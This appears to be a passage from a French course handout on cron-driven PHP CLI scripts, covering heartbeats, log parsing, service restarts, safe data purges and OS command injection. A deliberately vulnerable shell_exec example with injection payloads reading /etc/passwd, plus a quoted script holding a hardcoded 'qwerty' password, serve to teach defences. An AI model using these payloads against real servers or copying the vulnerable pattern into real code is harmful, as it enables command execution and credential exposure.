tâche ne s'exécute plus du tout — crontab écrasée, disque plein, interpréteur déplacé par une mise
à jour — et **rien ne le signale**, puisqu'une absence d'exécution ne produit aucune erreur. Aucune
ligne dans ton journal ne veut dire « la tâche va bien » ; elle veut dire « je ne sais pas ».

La parade s'appelle un **signal de vie** (*heartbeat*), aussi nommé *dead man's switch* : le script
prévient un service externe qu'il a réussi, et c'est ce service qui alerte quand le signal cesse
d'arriver. On inverse ainsi la charge de la preuve — au lieu d'attendre une mauvaise nouvelle, on
surveille l'absence d'une bonne.

```bash
0 3 * * *  /usr/bin/php /opt/scripts/purge.php >> /var/log/purge.log 2>&1 && /usr/bin/curl -fsS -m 10 https://exemple-heartbeat.invalid/ping/jeton > /dev/null
```

Le `&&` est le cœur du mécanisme : il n'exécute la seconde commande que si la première s'est
terminée avec le **code de retour** 0, la convention Unix pour « succès ». Un script qui prend soin
de sortir avec `exit(1)` en cas d'erreur transforme donc automatiquement tout échec en absence de
signal, donc en alerte.

## PHP en ligne de commande {diapos="46-50"}

Jusqu'ici, ton PHP s'exécutait toujours de la même façon : un navigateur demande une page, le
serveur web réveille PHP, PHP produit du HTML. Un script planifié n'a ni navigateur ni serveur
web — il est lancé directement par `cron`. C'est le même langage, mais une **interface distincte**,
appelée SAPI (*Server API*) : la SAPI **CLI** (*command-line interface*).

```bash
php /opt/scripts/copieDeSauvegarde.php           # depuis ton terminal
/usr/bin/php /opt/scripts/copieDeSauvegarde.php  # dans une crontab : chemin absolu, toujours
```

Le cours s'arrête à cette commande : la diapositive 48 donne `php < chemin du fichier >` et son
exemple, la 50 la replace dans une crontab. Tout ce qui suit — les deux fichiers de configuration,
`$argv`, `STDIN`, le code de retour, le shebang — est mesuré absent des 70 diapositives, et c'est
pourtant ce qui sépare un script qui tourne d'un script sur lequel on peut compter.

Ce n'est pas un détail d'emballage : plusieurs choses que tu tiens pour acquises n'existent plus.

| Aspect | PHP web (mod_php ou PHP-FPM) | PHP en ligne de commande |
| --- | --- | --- |
| Fichier de configuration | `/etc/php/8.x/fpm/php.ini` | **`/etc/php/8.x/cli/php.ini`** — un fichier distinct |
| `max_execution_time` | 30 s par défaut | **0**, c'est-à-dire illimité |
| `$_SESSION`, `$_GET`, `$_POST`, cookies | disponibles | **inexistants** |
| Entrées et sorties | la requête HTTP et son corps | `$argv`, `getopt()`, `STDIN`, `STDOUT`, `STDERR`, code de retour |
| Utilisateur effectif | `www-data` | le propriétaire de la crontab, souvent `root` |
| `getcwd()` | la racine du site | **imprévisible** sous `cron` |

Deux conséquences pratiques. **Modifier le `php.ini` du serveur web ne change rien à tes scripts
planifiés** : `php --ini` affiche le fichier réellement chargé, et c'est la première commande à
taper quand un script se comporte différemment des deux côtés. Et `max_execution_time = 0` signifie
qu'un script en ligne de commande n'est **jamais** interrompu automatiquement : une boucle infinie
tourne jusqu'au redémarrage, ou jusqu'à épuisement de la mémoire.

Un script planifié se présente ainsi :

```php
#!/usr/bin/env php
<?php
declare(strict_types=1);
// $argv[0] = le nom du script, $argv[1] et suivants = les arguments de la ligne de commande
$mode = $argv[1] ?? 'simulation';
fwrite(STDOUT, "Mode : {$mode}" . PHP_EOL);
exit(0);   // 0 = succès ; tout autre code = échec, exploitable par && et par le signal de vie
```

La première ligne est un **shebang** : elle indique au système quel interpréteur employer si le
fichier est rendu exécutable et lancé directement. `exit(0)` n'est pas décoratif — c'est ce code de
retour que lit le `&&` du signal de vie de la section précédente. Un script qui sort toujours par 0,
même quand il a échoué, rend tout le mécanisme d'alerte inopérant.

::: attention
**Ne déclenche jamais une tâche planifiée en appelant une URL** du genre
`curl https://monsite.ca/cron.php`. C'est une pratique répandue en hébergement mutualisé, où l'on
n'a pas accès à `cron`, et elle cumule trois défauts : l'adresse est publique, donc **n'importe qui
peut déclencher ta purge autant de fois qu'il le veut** ; le script subit le `max_execution_time`
du serveur web, donc il sera coupé au milieu ; et il subit aussi le délai d'attente du proxy en
amont. Si c'est vraiment inévitable : un jeton secret obligatoire, une restriction à `127.0.0.1`,
et le fichier placé hors de l'arborescence publique.
:::

### Lire un journal ligne à ligne {diapos="6, 11"}

Voici enfin le geste central d'un script de surveillance : ouvrir un journal et le parcourir. La
règle qui gouverne tout le reste est une règle de **mémoire**.

Ne charge **jamais** un journal entier avec `file()` ou `file_get_contents()` : ces fonctions
ramènent tout le fichier en mémoire d'un coup. Un `auth.log` de 400 Mo demande alors 400 Mo de
mémoire, et le script s'arrête sur un dépassement de limite — ou, si le `php.ini` de l'interface en
ligne de commande n'en pose aucune, avale toute la mémoire de la machine jusqu'à ce que le noyau
tue le processus. Dans les deux cas, au pire moment : le jour où le fichier est gros, donc le jour
où il se passe quelque chose. La lecture **en flux**, une
ligne à la fois, consomme une quantité de mémoire constante quelle que soit la taille du fichier.

```php
<?php
declare(strict_types=1);
date_default_timezone_set('America/Toronto');
const SEUIL = 10;                          // nombre d'échecs à partir duquel on signale une IP
const JOURNAL = '/var/log/auth.log';       // chemin EN DUR, jamais une entrée utilisateur
const RAPPORT = '/var/log/surveillance/rapport-ssh.log';

$fh = @fopen(JOURNAL, 'r');                // 'r' : un script de surveillance ne modifie rien
if ($fh === false) { fwrite(STDERR, 'Journal illisible' . PHP_EOL); exit(1); }

$echecs = [];
while (($ligne = fgets($fh)) !== false) {  // une ligne à la fois : mémoire constante
    // "Failed password for invalid user admin from 203.0.113.5 port 52344 ssh2"
    if (preg_match('/Failed password .* from (\S+)/', $ligne, $m) === 1) {
        $echecs[$m[1]] = ($echecs[$m[1]] ?? 0) + 1;
    }
}
fclose($fh);

arsort($echecs);                           // les IP les plus insistantes d'abord
$suspectes = array_filter($echecs, static fn(int $n): bool => $n >= SEUIL);

$rapport = date('Y-m-d H:i:s') . ' — ' . count($suspectes) . " IP au-dessus de " . SEUIL . " échecs\n";
foreach ($suspectes as $ip => $n) { $rapport .= sprintf("  %-16s %d\n", $ip, $n); }
// FILE_APPEND = ajout à la fin ; LOCK_EX empêche l'entrelacement si deux instances se chevauchent
file_put_contents(RAPPORT, $rapport, FILE_APPEND | LOCK_EX);
exit($suspectes === [] ? 0 : 2);           // 2 = anomalie détectée
```

Quatre décisions de ce script reviennent dans tous les scripts de ce type. Le fichier est ouvert en
**lecture seule** (`'r'`) : un outil de surveillance n'a aucune raison de pouvoir écrire dans ce
qu'il observe. `FILE_APPEND` reprend, côté PHP, le rôle du `>>` du shell, et `LOCK_EX` est la
version PHP du verrou de `flock` — les deux répondent au même piège de chevauchement. Enfin, le
code de sortie porte de l'information : `0` « rien à signaler », `1` « je n'ai pas pu travailler »,
`2` « anomalie détectée » — ce qui rend le script utilisable dans une chaîne `&&`.

::: attention
**Le chemin du journal ne doit jamais venir d'une entrée utilisateur.** Un script lancé comme
`php analyse.php $fichier`, où `$fichier` proviendrait d'un formulaire, est une lecture de fichier
arbitraire : rien n'empêche d'y passer `/etc/shadow`. Chemin en dur, comme ci-dessus, ou bien une
liste blanche de noms symboliques (`auth`, `apache-error`) que le script traduit lui-même en
chemins — jamais un chemin libre.
:::

Cette détection-là travaille **en aval**, sur le journal du système, une fois les tentatives déjà
faites. Elle ne remplace pas la défense **dans l'application** — compteur d'échecs en base,
verrouillage temporaire du compte — qui refuse la tentative au moment où elle se produit. Les deux
se complètent : la première voit ce que la seconde ne peut pas voir, à savoir les attaques qui ne
passent jamais par ton code.

## Surveiller un service et le relancer {diapos="58-63"}

Un service qui s'arrête n'a presque jamais l'élégance de prévenir. Apache tombe à 3 h 15 parce que
le disque était plein, et personne ne le découvre avant le premier appel d'un utilisateur, huit
heures plus tard. La séance propose la parade la plus directe qui soit : un script qui, chaque
minute, demande au système si le service tourne, et le relance sinon.

L'image juste est celle d'un **détecteur de fumée relié à un extincteur automatique** : il ne
surveille pas la maison entière, il surveille **un seul signal** et déclenche **une seule réaction**.
L'analogie casse sur deux points qui comptent autant l'un que l'autre : un extincteur ne dit à
personne qu'il s'est déclenché, alors que notre script **doit** laisser une trace horodatée ; et un
détecteur qui se déclenche quarante fois par nuit ne signale pas quarante incendies, il signale un
problème de fond que personne n'est allé chercher.

Tout repose sur une commande : `systemctl is-active apache2` écrit un seul mot sur sa sortie
standard — `active`, `inactive` ou `failed` — et rend un **code de retour** nul quand le service
tourne. Un script n'a donc pas besoin de charger une page pour savoir si Apache est vivant : il pose
la question à `systemd`, le gestionnaire de services de la distribution.

::: cours
Le script du cours (diapositives 61 à 63) tient en huit lignes. Il exécute `systemctl is-active`
avec **`shell_exec`**, compare la chaîne obtenue à `"inactive\n"`, et si la comparaison réussit,
exécute `systemctl start apache2` puis affiche la date et un message. La ligne de crontab est
`*/1 * * * * php /crontabDemo/surveillerApache.php >> /crontabDemo/surveillerApache.log`, ce qui
horodate chaque intervention dans le journal.

L'explication ligne à ligne de la diapositive 62 est **de la matière d'examen telle quelle** :
ligne 3, on exécute une commande pour savoir si Apache est « active » ou « inactive » ; ligne 5, on
vérifie le résultat pour décider si un démarrage est nécessaire ; ligne 6, on exécute la commande de
démarrage ; lignes 7 et 8, on affiche la date, l'heure et un message, ce qui, redirigé par la
crontab, laisse une trace de chaque redémarrage.
:::

Le principe est juste, et c'est lui qu'il faut retenir. Le script du cours est reproduit tel quel
dans le volet de gauche ci-dessous — c'est cette version-là qui sera reconnue à l'examen, et les
numéros de ligne y sont ceux de la diapositive 62. Trois détails d'écriture, en revanche, le rendent
aveugle exactement quand on aurait besoin qu'il voie.

::: correction-du-cours {source="Fiche KB web/securite/automatisation-surveillance-cron.md, section « Cas 2 — surveiller et redémarrer Apache », relevé sur les diapositives 61-63 de la séance 4 (millésime 2026), 2026-08-19 ; manuel PHP, shell_exec() — https://www.php.net/manual/en/function.shell-exec.php"}
**`$resultat == "inactive\n"` teste l'état redouté, et rate le cas le plus important.** Le test
dépend du retour à la ligne final : la moindre variation de sortie le fait échouer **en silence**,
Apache reste mort et le journal reste vide. Surtout, `shell_exec` **peut retourner `null`** — si la
commande échoue, ou si la fonction est désactivée par la configuration de PHP : la condition est
alors fausse et le script conclut que tout va bien. Un moniteur qui, en panne, rapporte « rien à
signaler » est pire que pas de moniteur du tout. Enfin, `==` est une comparaison lâche, sans intérêt
ici et source d'accidents ailleurs. La forme robuste teste l'**état attendu** avec `exec()`, qui
rend le **code de retour**. À l'examen, donne la version du cours ; en production, écris celle du
volet de droite.
:::

::: correction-du-cours {source="Fiche KB web/securite/automatisation-surveillance-cron.md, section « Cas 2 », encadré « Le script ne vérifie pas que le redémarrage a réussi » (diapositives 61-63, séance 4, millésime 2026), 2026-08-19"}
**Le journal affirme une réparation qui n'a peut-être pas eu lieu.** Le message
« Redemarrage d'Apache » est écrit **avant** de savoir si `systemctl start` a fonctionné. Si Apache
refuse de démarrer — erreur de configuration, port déjà occupé, disque plein — le fichier se remplit
d'une ligne mensongère par minute, et personne n'est alerté.
:::

:::: comparaison
::: vulnerable
```php
<?PHP
// /crontabDemo/surveillerApache.php
$resultat = shell_exec('systemctl is-active apache2');

if ($resultat == "inactive\n"){
    shell_exec('systemctl start apache2');
    echo "[" . date("Y-m-d H:i:s") . "] ";
    echo "Redemarrage d'Apache\n";
}
?>
```

{lignes="3"} `shell_exec` renvoie la **sortie** de la commande, jamais son succès. Une commande en
échec peut rendre une chaîne vide, ou `null`, qu'on confondra avec un résultat normal.

{lignes="5"} Le test porte sur l'état **redouté** et dépend d'un `\n` en dur. Tout ce qui n'est pas
exactement `"inactive\n"` — dont `null` et `"failed\n"` — est lu comme « tout va bien ».

{lignes="6"} Le redémarrage est lancé sans qu'on regarde jamais s'il a réussi.

{lignes="8"} Le message est écrit dès que le redémarrage a été **tenté**, sans qu'on ait jamais
regardé s'il a réussi : le journal devient un récit de réparations imaginaires.
:::
::: corrige
```php
<?php
declare(strict_types=1);
const LOG = '/var/log/surveillance/apache.log';

function journaliser(string $msg): void {
    file_put_contents(LOG, sprintf('[%s] %s%s', date('Y-m-d H:i:s'), $msg, PHP_EOL), FILE_APPEND | LOCK_EX);
}

exec('/usr/bin/systemctl is-active apache2 2>/dev/null', $sortie, $code);
if (trim(implode('', $sortie)) === 'active') {
    exit(0);
}

journaliser('Apache inactif — tentative de redémarrage');
exec('/usr/bin/systemctl start apache2', $out, $codeStart);
if ($codeStart === 0) { journaliser('Apache redémarré avec succès'); exit(0); }

journaliser("ÉCHEC du redémarrage (code {$codeStart}) : " . implode(' | ', $out));
exit(1);
```

{lignes="9"} `exec()` remplit `$sortie` **et** `$code` : on dispose enfin du code de retour. Le
chemin de `systemctl` est absolu, comme tout ce qui est lancé depuis `cron`.

{lignes="10"} On teste l'état **attendu**, avec une comparaison stricte `===`. Tout autre résultat —
`inactive`, `failed`, une sortie vide, une commande absente — mène à la branche de réparation, ce
qui est le comportement prudent.

{lignes="11"} Sortir sans rien écrire quand tout va bien : un journal qui grossit d'une ligne par
minute est illisible et masque justement l'incident qu'on y cherche.

{lignes="16"} Le succès n'est journalisé qu'**après** vérification du code de retour, et l'échec
part sur une ligne à lui, avec le code et la sortie de la commande.

{lignes="19"} `exit(1)` en cas d'échec : le script devient utilisable dans une chaîne `&&`, donc
dans le signal de vie vu plus haut. Un échec cesse d'être silencieux.
:::
::::



::: attention
**Redémarrer en boucle un service qui plante n'est pas une correction, c'est un pansement.** Si
Apache tombe toutes les dix minutes, le script masque la cause — fuite de mémoire, tueur de
processus par manque de mémoire, disque plein — en donnant l'illusion que tout va bien. Journalise
**chaque** redémarrage, et traite une fréquence anormale comme une alerte à part entière : trois
redémarrages dans l'heure est une information beaucoup plus utile qu'un service « toujours debout ».
:::

::: complement
Pour ce besoin précis, `systemd` sait faire **nativement et mieux**, sans script et sans `cron` :
les directives `Restart=on-failure`, `RestartSec=` et `StartLimitBurst=` posées dans l'unité du
service relancent le processus dès qu'il meurt — en quelques secondes plutôt qu'à la minute
suivante — et refusent de boucler indéfiniment au-delà d'un certain nombre de tentatives. Le script
du cours reste l'exercice qui fait comprendre le mécanisme ; en production, la question à se poser
d'abord est « le gestionnaire de services ne le fait-il pas déjà ? ».
:::

::: exercice-du-cours {ref="4"}
Reprends la version corrigée ci-dessus en remplaçant simplement la constante du journal par
`/scriptExerciceCours4/exercice4.log` : l'énoncé place le script sous `/scriptExerciceCours6/` et
son journal sous `/scriptExerciceCours4/` — ce n'est pas une coquille de ta part, recopie les deux
chemins tels quels. Le test se déroule en quatre gestes :
`sudo systemctl stop apache2`, vérifier dans le navigateur que la page ne répond plus, attendre un
peu plus d'une minute que `cron` passe, puis relire le journal et confirmer avec
`systemctl is-active apache2`. Deux points d'attention : `systemctl start` exige les privilèges de
`root`, donc cette tâche vit dans la crontab de `root` ; et le script ne doit journaliser **que**
lorsqu'un redémarrage a lieu, sinon le fichier devient illisible dès le premier jour.
:::

## Les scripts qui suppriment {diapos="51-53"}

Jusqu'ici, nos scripts **lisaient**. On passe maintenant à ceux qui **détruisent** — purger des
imports vieux d'un an, effacer des fichiers temporaires, vider une table de sessions. C'est la
catégorie de tâche planifiée la plus utile, et de très loin la plus dangereuse : elle s'exécute sans
personne devant l'écran, à répétition, et une erreur ne se remarque qu'une fois les données parties.

L'image juste est celle d'une **déchiqueteuse à papier**. Personne ne met une pile de documents dans
une déchiqueteuse sans avoir regardé ce qu'il y a dedans, et personne ne la laisse tourner seule
dans un bureau vide. Là où l'analogie casse : la déchiqueteuse fait du bruit et laisse des
confettis, alors qu'un `DELETE` réussi ne produit **aucun signe extérieur**. C'est au script de
fabriquer ce bruit — d'où les trois règles qui suivent.

### Trois règles avant d'écrire une seule ligne de suppression {diapos="55"}

Une seule des trois vient du cours, et c'est la première : la diapositive 55 pose le `SELECT` **avant**
le `DELETE`, sur exactement le même filtre. Les deux autres — la clause bornée, la trace de ce qui a
été détruit — viennent de la base de connaissances ; « mode simulation », « argument explicite » et
« nombre de lignes journalisé » ne sont sur aucune des 70 diapositives.

1. **Compter avant de supprimer, et ne supprimer que sur demande explicite.** Le script démarre en
   mode **simulation** : il exécute le `SELECT COUNT(*)` correspondant exactement au `DELETE`, écrit
   le nombre dans son journal, et s'arrête là. Il ne détruit que si un argument comme `reel` lui est
   passé. Un script qui supprime dès la première exécution supprimera aussi lors du premier essai.
2. **Une clause `WHERE` bornée, écrite avant le reste de la requête.** Un `DELETE` sans `WHERE` vide
   la table ; un `WHERE` dont la borne vient d'une variable vide en fait autant. La borne se relit à
   voix haute : « les lignes dont la date de création est antérieure à aujourd'hui moins six mois,
   et qui ne sont pas marquées à conserver ».
3. **Journaliser ce qui a été détruit, pas seulement que ça s'est bien passé.** Le nombre de lignes
   supprimées au minimum, les identifiants si le volume le permet, ou un export préalable. Une purge
   sans trace est **indistinguable d'une corruption de données** : personne ne pourra dire, trois
   semaines plus tard, si les lignes manquantes ont été purgées ou perdues.

Une quatrième règle vaut pour les fichiers : **jamais de suppression récursive construite
dynamiquement**. Si la variable est vide, `rm -rf "$DIR/"*` devient `rm -rf /*`. On préfère les
fonctions PHP natives (`unlink`, `glob`) ou `find` avec des bornes explicites, en deux temps :

```bash
find /var/app/uploads/tmp -maxdepth 1 -type f -mtime +30 -print    # simulation : on lit la liste
find /var/app/uploads/tmp -maxdepth 1 -type f -mtime +30 -delete   # réel : la même liste, détruite
```

`-maxdepth 1` interdit à la commande de descendre dans les sous-répertoires, `-type f` exclut les
répertoires eux-mêmes, `-mtime +30` borne l'âge. Les trois ensemble font que la commande ne peut
pas s'échapper du dossier visé, même si quelqu'un y a glissé un lien.

### Le cas du cours : purger une table {diapos="54-57"}

::: cours
La démonstration (diapositives 54 à 57) porte sur une table `fichierImporte` de la base
`demonstration`, et procède en deux temps qu'il faut savoir reproduire : **sélectionner d'abord pour
voir, supprimer ensuite**. Le script se connecte avec `mysqli`, exécute le `DELETE`, affiche
« Suppression effectuee avec succes » ou le message d'erreur, puis ferme la connexion. Sa crontab
est `*/1 * * * * php /crontabDemo/supprimerAnciennesDonnees.php >> /crontabDemo/supprimerAnciennesDonnees.log`.
:::

```sql
SELECT * FROM fichierImporte WHERE date_importation < DATE_ADD(now(), INTERVAL -1 YEAR);
DELETE   FROM fichierImporte WHERE date_importation < DATE_ADD(now(), INTERVAL -1 YEAR);
```

`DATE_ADD(now(), INTERVAL -1 YEAR)` et `DATE_SUB(NOW(), INTERVAL 1 YEAR)` sont **équivalents** : la
seconde forme est plus lisible, mais c'est la première qu'il faut savoir reconnaître, car c'est
celle du cours.

```php
<?PHP
// /crontabDemo/supprimerAnciennesDonnees.php
$conn = new mysqli('localhost', 'alexandre', 'qwerty', 'demonstration');
// Check connection
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}

$sql = "DELETE FROM fichierImporte WHERE date_importation < DATE_ADD(now(),INTERVAL -1 YEAR)";
if ($conn->query($sql) === TRUE) {
  echo "Suppression effectuee avec succes\n";
} else {
  echo "Erreur de suppression: " . $conn->error . "\n";
}

$conn->close();
?>
```

::: correction-du-cours {source="Fiche KB web/securite/automatisation-surveillance-cron.md, section « Cas 1 — purge de données en base » : le texte de la diapositive 56 prescrit une exécution quotidienne, sa propre capture d'écran montre */1 * * * * (séance 4, millésime 2026), relevé le 2026-08-19"}
**La diapositive se contredit elle-même.** Son texte dit qu'« une suppression chaque minute est
inutile » et qu'une exécution quotidienne suffit — et la capture juste en dessous montre
`*/1 * * * *`, c'est-à-dire chaque minute. **La bonne réponse est celle du texte** : `0 3 * * *`,
une fois par nuit. Le `*/1` de la capture n'est là que pour voir le résultat pendant la
démonstration ; recopié tel quel sur un serveur réel, il fait tourner une purge 1 440 fois par jour
pour rien, dont 1 439 fois sur une table déjà propre.
:::

::: correction-du-cours {source="Fiche KB web/securite/automatisation-surveillance-cron.md, encadré « Le mot de passe de la base est en clair dans le script » (diapositive 56, séance 4, millésime 2026), 2026-08-19 ; OWASP Top 10:2021 A07 — Identification and Authentication Failures"}
**Le mot de passe de la base est en clair dans le script, et c'est `qwerty`.** Quatre problèmes se
cumulent ici, et aucun n'est relevé par le cours : un secret écrit en dur, donc versionné avec le
code et lisible par quiconque peut lire le fichier ; un mot de passe qui figure dans toutes les
listes de force brute ; un compte SQL qui a manifestement bien plus que le `DELETE` dont il a
besoin ; et aucune permission posée sur le fichier — s'il est lisible par `www-data`, une faille
d'inclusion dans l'application livre les identifiants de la base.

La correction tient en trois gestes : lire le secret **hors du code** (variable d'environnement
définie dans la crontab, ou fichier en permissions `600` appartenant au compte de service), créer un
compte SQL dédié n'ayant que `SELECT` et `DELETE` sur cette table, et poser `chmod 600` sur le
script. À l'examen, la structure du script du cours est ce qui est attendu ; en production, aucun de
ces trois gestes n'est optionnel.
:::

::: complement
Deux autres défauts de ce script se corrigent en une ligne chacun. **Il ne dit pas combien de lignes
il a supprimées** : « Suppression effectuee avec succes » s'affiche à l'identique qu'il ait purgé 0
ou 40 000 lignes, si bien que le journal ne permet pas de distinguer un fonctionnement normal d'une
purge catastrophique. `$conn->affected_rows` — ou `rowCount()` en PDO — transforme cette ligne
décorative en trace exploitable. Et **la requête est construite par concaténation de chaîne** :
ici `$sql` ne contient aucune entrée externe, donc il n'y a **pas** d'injection dans ce script
précis, mais c'est le patron que l'on recopiera le jour où la borne viendra d'un argument de ligne
de commande — et ce jour-là ce sera une injection SQL. Employer PDO avec des requêtes préparées dès
le premier script coûte deux lignes et supprime la question.
:::

### La version que l'on met en production {hors-cours}

Le script ci-dessous répond aux trois règles à la fois : mode simulation par défaut, filtre écrit
une seule fois et réutilisé pour le comptage comme pour la suppression, et journal qui porte le
nombre de lignes concernées. C'est aussi le corrigé des deux exercices qui suivent.

```php
#!/usr/bin/env php
<?php
declare(strict_types=1);
$simulation = ($argv[1] ?? 'simulation') !== 'reel';   // par défaut, on NE supprime PAS

$pdo = new PDO('mysql:host=localhost;dbname=cours4;charset=utf8mb4', 'purge', getenv('DB_PASS'),
    [PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION]);

// Le filtre est écrit UNE fois : le COUNT et le DELETE ne peuvent plus diverger.
$filtre = "FROM donnees
           WHERE date_creation < DATE_SUB(NOW(), INTERVAL :mois MONTH)   -- l'enonce ecrit `date_création`, accentue
             AND (conserver IS NULL OR conserver <> 'true')";

$compte = $pdo->prepare("SELECT COUNT(*) $filtre");    // compter AVANT : c'est le mode simulation
$compte->execute([':mois' => 6]);
$nb = (int) $compte->fetchColumn();

$msg = sprintf('[%s] %s — %d ligne(s) éligible(s)', date('c'), $simulation ? 'SIMULATION' : 'RÉEL', $nb);
if (!$simulation && $nb > 0) {
    $suppr = $pdo->prepare("DELETE $filtre");          // requête paramétrée, même sans entrée externe
    $suppr->execute([':mois' => 6]);
    $msg .= sprintf(' — %d supprimée(s)', $suppr->rowCount());
}
// L'enonce ne fixe aucun journal pour cet exercice : ce chemin est un choix, pas une consigne.
file_put_contents('/scriptExerciceCours6/exercice5.log', $msg . PHP_EOL, FILE_APPEND | LOCK_EX);
```

Trois décisions méritent d'être nommées. Le **filtre est écrit une seule fois** et sert aux deux
requêtes : c'est ce qui garantit que le nombre annoncé en simulation est exactement celui qui sera
supprimé en réel — deux requêtes recopiées à la main divergent tôt ou tard. Le mot de passe vient de
`getenv('DB_PASS')`, donc de l'environnement défini dans la crontab, jamais du fichier. Et
`PDO::ERRMODE_EXCEPTION` fait qu'une erreur de base **lève** au lieu de rendre `false` : le script
s'arrête avec un code de retour non nul, ce que le signal de vie transformera en alerte.

::: exercice-du-cours {ref="5"}
Fais l'exportation demandée (`mysqldump cours4 donnees > sauvegarde.sql`) **avant** le premier
essai : c'est elle qui te permettra de réimporter et de recommencer autant de fois qu'il le faudra,
au lieu de ressaisir des données à la main. Lance d'abord le script sans argument — mode simulation
— et lis le nombre annoncé dans le journal : s'il ne correspond pas à ce que tu attends, c'est ta
clause `WHERE` qu'il faut corriger, pas la base. Ajoute `reel` seulement ensuite. La cadence
`*/5 * * * *` demandée par l'énoncé est là pour que tu voies le résultat pendant la séance ; sur un
serveur réel, une purge est une tâche quotidienne.
:::

::: exercice-du-cours {ref="6"}
La seule chose qui change par rapport à l'exercice 5 est le filtre :
`AND (conserver IS NULL OR conserver <> 'true')`. Le `conserver IS NULL` n'est pas décoratif — sans
lui, les lignes créées avant l'ajout du champ ont la valeur `NULL`, et en SQL toute comparaison avec
`NULL` est **inconnue**, donc jamais vraie : ces lignes échapperaient à la purge sans que tu saches
pourquoi. Vérifie ton travail en comptant les lignes `true` avant et après le passage du script :
le compte doit être identique. Le truc donné par le cours pour interrompre une tâche pendant que tu
corriges le script est de **commenter la ligne de crontab avec un `#`** au lieu de la supprimer.
Un booléen stocké en `varchar(10)` est un choix de l'énoncé, pas une bonne pratique : un `TINYINT(1)`
éviterait les cas `'True'`, `'TRUE'` et `NULL`.
:::

## shell_exec et l'injection de commande OS {diapos="6, 62, 70"}

Le cours emploie `shell_exec` une seule fois, dans le script de surveillance d'Apache, et sans en
expliquer le fonctionnement. Or cette famille de fonctions est la porte la plus large que PHP puisse
ouvrir : elle donne à ton code la capacité d'exécuter **n'importe quelle commande du système**, avec
les droits du processus PHP — et sous `cron`, c'est souvent `root`.

PHP en propose plusieurs, et le choix n'est pas indifférent : `shell_exec` renvoie la sortie
complète sous forme de chaîne ; `exec` renvoie la sortie **et** le code de retour ; `system` affiche
la sortie au fil de l'eau ; `passthru` sert au binaire (image, archive). **Privilégie toujours la
forme qui donne le code de retour** — `exec` ou `proc_open` — car `shell_exec` renvoie la sortie,
pas le succès, et une commande en échec peut rendre une chaîne vide qu'on confondra avec un résultat
normal.

### La faille, sur l'exemple le plus court possible {hors-cours}

```php
<?php
$hote = $_GET['hote'];              // VULNÉRABLE : l'entrée atteint la ligne de commande
echo shell_exec("ping -c 4 $hote"); // exemple de leçon, à ne jamais reproduire

// Charges utiles : ?hote=exemple.ca;cat /etc/passwd
//                  ?hote=exemple.ca%26%26id
//                  ?hote=$(hostname)
```

Le mécanisme tient en une phrase : le shell ne voit pas « une commande avec un argument », il voit
**une ligne de texte** qu'il découpe lui-même. Les caractères `;`, `&&`, `|`, l'accent grave, la
forme `$( )` et le simple saut de ligne **terminent la commande en cours et en ouvrent une
nouvelle**. Tout ce qui suit s'exécute avec les droits du processus PHP.

Le cas est plus grave dans une tâche planifiée que dans une page web, pour une raison qui n'a rien
de technique : la page web tourne en `www-data`, la tâche planifiée tourne souvent en `root`.

| Parade | Ce qu'elle fait | Sa limite |
| --- | --- | --- |
| `escapeshellcmd($cmd)` | échappe les métacaractères de la commande entière | **Insuffisant** : laisse passer les arguments (`-o fichier`) et casse les guillemets appariés. À éviter |
| `escapeshellarg($arg)` | met l'argument entre apostrophes et échappe ce qu'il contient | Correct **par argument**, mais inefficace si l'argument commence par `-` (injection d'option) ou est déjà entre guillemets dans la chaîne ; sous Windows, où le shell n'a pas les mêmes règles de citation, il ne protège ni `%` ni `!` |
| **Liste blanche** | l'entrée sert d'**index** dans une table de valeurs autorisées | Aucune limite : c'est la bonne réponse dès que le choix est fini |
| `proc_open` **avec un tableau** | aucun shell n'est impliqué, les arguments sont passés directement au binaire | La forme sûre par défaut (PHP 7.4 et plus) |
| **Ne pas exécuter de commande** | une fonction PHP native ou un appel d'API fait la même chose | La meilleure : pas de shell, donc pas d'injection |

```php
<?php
// 1. Liste blanche : l'utilisateur choisit une CLÉ, jamais une valeur.
$services = ['web' => 'apache2', 'bd' => 'mariadb', 'cache' => 'redis-server'];
$cle = $_POST['service'] ?? '';
if (!isset($services[$cle])) { http_response_code(400); exit('Service inconnu'); }
exec('/usr/bin/systemctl is-active ' . $services[$cle], $out, $code);

// 2. proc_open avec un TABLEAU : aucun shell, donc aucun métacaractère n'a de sens.
//    Le "--" termine la liste des options : une valeur commençant par - reste un opérande.
$proc = proc_open(['/bin/ping', '-c', '4', '--', $hote], [1 => ['pipe', 'w'], 2 => ['pipe', 'w']], $pipes);
$sortie = stream_get_contents($pipes[1]);
fclose($pipes[1]); fclose($pipes[2]);
$code = proc_close($proc);

// 3. Pas de commande du tout : PHP sait déjà le faire.
$libre = disk_free_space('/');   // au lieu de shell_exec('df -h /')
$nom   = gethostbyaddr($ip);     // au lieu de shell_exec("host $ip")
```

La hiérarchie à retenir se lit de bas en haut de ce bloc : **d'abord** chercher la fonction PHP
native, **ensuite** l'appel sans shell, **ensuite** la liste blanche, et seulement en dernier
recours l'échappement d'un argument.

::: attention
**Attention à ce que `exec()` ne promet pas.** Le script de surveillance corrigé plus haut emploie
`exec('/usr/bin/systemctl is-active apache2 2>/dev/null', …)`, et le `2>/dev/null` est bien une
syntaxe de shell : `exec`, `system` et `shell_exec` passent **tous** par un shell. Ce qui distingue
`exec` de `shell_exec`, ce n'est donc pas l'absence de shell, c'est qu'il rend le **code de retour**.
La seule forme qui n'ouvre aucun shell est `proc_open` avec un tableau d'arguments. Dans le script
de surveillance, la commande est **entièrement écrite en dur** : aucune entrée externe ne l'atteint,
et il n'y a donc pas d'injection possible. La règle reste : dès qu'une variable entre dans la
chaîne, on change de forme.
:::

::: complement
Sur beaucoup d'hébergements — mutualisés en particulier — `shell_exec` est **désactivé** par la
directive `disable_functions` du fichier de configuration de PHP, en compagnie de `exec`, `system`,
`passthru`, `popen` et `proc_open`. C'est une bonne nouvelle : cela supprime d'un coup toute une
classe de vulnérabilités, et le principal moyen d'escalade dont dispose un attaquant après avoir
compromis l'application. Sur un serveur dédié, le compromis raisonnable découle directement de ce
que la moitié précédente a établi — il y a **deux fichiers de configuration distincts** : on
désactive ces fonctions pour l'interface du serveur web, et on les laisse actives pour l'interface
en ligne de commande, celle qu'emploient les tâches planifiées. Le mécanisme est la directive
`disable_functions` du `php.ini` ; la fréquence de cette désactivation par défaut, elle, est un
constat d'usage — aucune source ne la chiffre.
:::

